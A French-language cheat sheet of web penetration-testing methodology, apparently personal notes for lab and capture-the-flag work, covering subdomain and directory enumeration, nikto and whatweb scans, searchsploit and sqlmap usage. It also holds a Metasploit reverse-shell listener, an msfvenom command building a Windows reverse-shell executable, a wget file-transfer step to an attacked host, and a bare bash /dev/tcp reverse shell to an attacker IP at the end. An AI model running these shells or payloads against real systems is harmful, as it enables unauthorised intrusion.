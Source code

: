 ```yaml
---
title:  "Pentest Web"
tag: "Méthodologie"
---
```


Ces notes sont destinées à répertorier une méthodologie pour du pentest web.

# Collecte d'informations

## Identification de sous domaines
```console
Misoko@home[/home]$ sublist3r -d google.com
Misoko@home[/home]$ gobuster dns -d google.com -w ~/wordlists/subdomains.txt -i
```
On peut utiliser également https://crt.sh/ avec "%.domain.com"

### Ajout de l'IP dans le /etc/hosts
```console
echo '10.10.10.11 2million.htb' | sudo tee -a /etc/hosts
```

## Recherche / Enumération de dossiers et fichiers
Une fois le périmètre défini, une utilisation d'outils de bruteforce de répertoire peut permettre d'identifier les fichiers et dossiers du domaine de périmètre. Une fois les résultats obtenus, l'identification de la technologie utilisée peut être faite.

### [Gobuster](https://github.com/OJ/gobuster)
```console
Misoko@home[/home]$ gobuster dir -u http://@IP --wordlist /usr/share/dirb/wordlists/common.txt
```

On peut accéder ici à de nombreuses listes avec [SecLists](https://github.com/danielmiessler/SecLists).

## Identifier les Technologies utilisées

### [wappalyzer](https://www.wappalyzer.com/)
Cet outil permet de se faire une première idée des technologies liés à un nom de domaine, directement depuis l'interface web.

### [similartech](https://www.similartech.com/)
Un autre outil dans le même état d'esprit.

## whatweb
```console
Misoko@home[/home]$ whatweb domain.com -v -a 3
```


# Scanners Automatique
### [nikto](https://github.com/sullo/nikto)
Nikto est un scanner de serveur web (configuration, version de serveurs obsolète, options HTTP du serveur, identification du serveur web, vulnérabilités, etc). Un [guide](https://www.freecodecamp.org/news/an-introduction-to-web-server-scanning-with-nikto/) pratique pour débuter.

```console
Misoko@home[/home]$ nikto -h scanme.nmap.org -o scan.txt
Misoko@home[/home]$ nikto -h domains.txt
Misoko@home[/home]$ nikto -h https://nmap.org -ssl
Misoko@home[/home]$ nikto -h @IP
```


nikto, whatweb, wapiti, w3af, zaproxy, nuclei
## cmsScan

# HTTP Headers 
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/01-Information_Gathering/

# Recherche d'exploits

```console
Misoko@home[/home]$ searchsploit apache 2.4.41 
```

Recherche google
```console
frameworkName exploit/cve/metasploit
framework cve /metasploit
```

# Injection SQL
### SQLmap
Après avoir trouvé un lien où il y a une injection du type : http://vulnWebsite.com/article.php?id=2
```console
Misoko@home[/home]$ sqlmap -u http://vulnWebsite.com/article.php?id=2 --dbs
Misoko@home[/home]$ sqlmap -u http://vulnWebsite.com/article.php?id=2 -D databaseName
```

# Utilisation metasploit

```console
$ msfconsole
$ use exploit/multi/handler
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.5
msf6 exploit(multi/handler) > set lport 1234
msf6 exploit(multi/handler) > exploit
```

## Creation de shell
```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > Desktop/stageless_reverse_tcp_x86_4444_2.exe
```

# Echange de fichier :
```console
Misoko@home[/home]$ python3 -m http.server
```
et de l'autre côté :
```console
attackedHost@home[/home]$ wget http://@IP/file
```


### Deobfuscation
- Javascript [de4js](https://lelinhtinh.github.io/de4js/)

### Decodage 
- Base64 : `echo U1oyN0ktUTVaOVMtREtOSVgtUDNDU00= | base64 -d`

<!--
À checker

https://marduc812.com/2019/08/18/web-application-testing-methodology/

https://marduc812.com/checklist/web.html
  -->




  bash -i >& /dev/tcp/10.18.17.129/4444 0>&1